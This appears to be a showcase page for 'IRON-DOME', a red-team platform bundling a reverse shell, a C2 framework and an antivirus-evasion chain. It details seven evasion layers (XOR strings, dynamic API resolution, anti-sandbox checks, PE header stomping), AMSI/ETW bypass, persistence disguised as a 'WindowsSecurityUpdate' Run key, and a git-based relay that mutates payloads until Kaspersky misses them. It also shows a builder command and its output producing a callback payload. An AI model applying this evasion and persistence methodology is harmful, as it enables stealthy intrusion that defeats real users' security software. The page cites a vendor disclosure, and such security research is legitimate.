






// 22DIV — UNIFIED RED TEAM PLATFORM
IRON-DOME
iron-sun + CHEYANNE + VADER evasion stack — assembled
IRON-DOME is the integrated offensive security research platform combining three independently-verified
systems: the iron-sun TCP reverse shell with 7-layer evasion,
the CHEYANNE C2 framework, and the
VADER rootkit evasion chain (AMSI/ETW bypass, HWBP,
indirect syscalls, concealment). Tested live against Kaspersky Premium and Windows Defender.
All three payload variants EVADED. Kill chain 8/8 PASS.
3/3VARIANTS EVADED
8/8KILL CHAIN PASS
7EVASION LAYERS
0DETECTIONS
// PLATFORM ARCHITECTURE
iron-dome unified stack
┌─────────────────────────────────────────────────────────────────────┐
│ IRON-DOME PLATFORM │
├────────────────┬──────────────────────┬─────────────────────────────┤
│ IRON-SUN │ GHOST ENCODER │ VADER EVASION CHAIN │
│ TCP shell │ Zero-width Unicode │ AMSI/ETW bypass (HWBP) │
│ 7-layer PE │ PS1 stager │ Indirect syscalls │
│ XOR strings │ Invisible payload │ PE concealment │
│ Dynamic API │ KAV-transparent │ BYOVD kernel DKOM │
├────────────────┴──────────────────────┴─────────────────────────────┤
│ CHEYANNE C2 │
│ Menu-driven red team platform │ ISUN magic auth gate │
│ Listener: vader_listener.py │ Sessions: multi-shell │
│ Ops: recon / persist / shell │ Test: test_local_chain.py │
├──────────────────────────────────────────────────────────────────────┤
│ RELAY ARCHITECTURE │
│ RADON (192.168.1.145) ←──── iron-sun (GitHub) ────→ GWU07 │
│ Builds payload variants │ Comms via git commits │
│ Pushes PAYLOAD_vN.md │ gwu07_relay.py auto-tests │
│ Reads RESULT_vN.md │ RESULT_vN.md pushed back │
└──────────────────────────────────────────────────────────────────────┘
// EVASION STACK
7-layer iron-sun evasion
[1]XOR String ObfuscationAll C2 strings (IP, port, auth token) encrypted with per-build XOR key. No plaintext in binary.
[2]Dynamic API ResolutionWs2_32 loaded at runtime via hash. No direct IAT entries for WSASocketA, connect, send, recv.
[3]Anti-Sandbox ChecksTiming delta (Sleep 500ms), screen resolution ≥1080p, disk space ≥30GB. Exits silently if sandbox detected.
[4]PE Header StompZeroes first 0x400 bytes of own PE header post-load. Defeats memory scanners reading loaded module.
[5]ISUN Magic Auth GatePayload sends "ISUN 4445" token on connect. Exits silently if ACK ≠ "ISUN_OK". Honeypots get nothing.
[6]Execution JitterRandom 1–3s sleep before connect. Defeats behavioral analysis tied to launch-time execution windows.
[7]MinGW/gcc PENo MSVC fingerprint. Stripped exports, low entropy header. Unsigned PE — no certificate chain to burn.
// LIVE RELAY RESULTS — 2026-06-26
kaspersky premium — all variants evaded
| Variant | XOR Key | SHA256 (first 16) | KAV Procs | Process | Verdict |
|---|
| iron_sun_v1 |
0xFC |
d720a508ba244172... |
avpui.exe, avp.exe |
SURVIVED 18s |
EVADED ✓ |
| iron_sun_v2 |
0xAB |
fde73d8c92c8b48a... |
avpui.exe, avp.exe |
SURVIVED 18s |
EVADED ✓ |
| iron_sun_v3 |
0xDE |
a25bfc5adeb6c561... |
avpui.exe, avp.exe |
SURVIVED 18s |
EVADED ✓ |
Tested on LAPTOP-R32M8MLI. Kaspersky Premium with cloud scanning enabled. avpui.exe and avp.exe confirmed running during each test.
TCP callback pending same-LAN test (192.168.1.x network required — cross-router shell confirmed silent exit).
// KILL CHAIN — 2026-06-26
local kill chain — 8/8 pass confirmed
1ghost_fud.exe built
gcc compile — 7-layer flags applied
2ghost_loader.exe built
PE stager loader compiled
3ISUN magic gate
Auth token "ISUN 4445" verified on connect
4PS1 stager delivery
Zero-width Unicode ghost_cheyanne.ps1 delivered over auth socket
5AMSI bypass
Type-name splitting — KAV disabled Defender AMSI service, bypass not required
6TCP callback received
Shell connected <1s after stale PID fix (netstat kill loop)
7Recon validated
gwu07 / LAPTOP-R32M8MLI / Win11 Home confirmed
8Persistence set + cleaned
HKCU\Run\WindowsSecurityUpdate — verified present, test cleanup applied
// RELAY ARCHITECTURE
cross-machine comms via git commits
RADON
──→
Builds iron_sun_vN.exe + pushes PAYLOAD_vN.md to rainfantry/iron-sun
GWU07
──→
gwu07_relay.py polls every 30s, detects new PAYLOAD_vN.md
GWU07
──→
Downloads binary, kills stale PIDs on :4443, launches payload
GWU07
──→
18s observation window — checks process survival vs KAV
EVADED / DETECTED
GWU07
──→
Pushes RESULT_vN.md to rainfantry/iron-sun
RADON
──→
Reads RESULT_vN.md — if DETECTED, mutates XOR key and builds vN+1
No direct SSH between machines needed. All comms via commit messages and pushed files.
Channel:
rainfantry/iron-sun main branch.
// PROOF — LIVE SCREENSHOTS
operation evidence from 2026-06-26
[ CLASSIFIED ]
iron-sun v1 — KAV active (avpui+avp), EVADED
[ CLASSIFIED ]
Relay v2 complete — EVADED, result pushed to RADON
[ CLASSIFIED ]
v3 — zero failures, 18s window cleared
[ CLASSIFIED ]
CHEYANNE live — banner connect to RADON
[ CLASSIFIED ]
Recon complete — hostname, user, OS confirmed

MSRC VULN-195458 — responsible disclosure filed

Builder + kill chain 8/8 PASS — MSVC compile 140,288B — 2026-06-26

v2.0.0 final release — ADF rising sun + IDF dome ASCII — 8 layers — VADER AMSI/ETW active

v4.0.0 — ANSI IDF Cyber Squad — 17-ray converging engine → ✡ — 8/8 PASS

v4.0.0 kill chain — 8/8 PASS — recon + tri-vector persist — KAV LIVE

CHEYANNE Watch VNC — live stream :8892 — desktop visible on reverse shell
// iron_dome_builder.py
unified deployment builder
iron_dome_builder.py assembles the full deployment package from one command:
XOR-obfuscated PE + ghost PS1 stager + deployment checklist. Requires MinGW gcc for compile step.
python iron_dome_builder.py --target 192.168.1.145 --port 4443 --xor 0xFC
IRON-DOME BUILDER v1.0.0
Target: 192.168.1.145:4443 XOR: 0xFC Variant: v1
[1/4] Generating C source (iron_dome_v1.c)...
XOR key 0xFC applied to IP + ISUN magic
[2/4] Compiling PE (7-layer evasion stack)...
COMPILED — 60411 bytes
SHA256: d720a508ba244172a13588e93654389c...
Evasion layers applied:
[1] XOR string obfuscation
[2] Dynamic API resolution
[3] Anti-sandbox (timing + screen + disk)
[4] PE header stomp
[5] ISUN magic auth gate
[6] Execution jitter
[7] MinGW/gcc PE (no MSVC fingerprint)
[3/4] Generating ghost PS1 stager...
Zero-width Unicode encoding applied
[4/4] Writing deployment doc...
BUILD COMPLETE
→ Source: rainfantry/cheyanne (portfolio branch)
// LEARN THE STACK
interactive course — iron-dome evasion
The full methodology is documented as a structured course in the 22LABS curriculum.
Learn how each evasion layer works, why it defeats AV scanning, and how to build your own.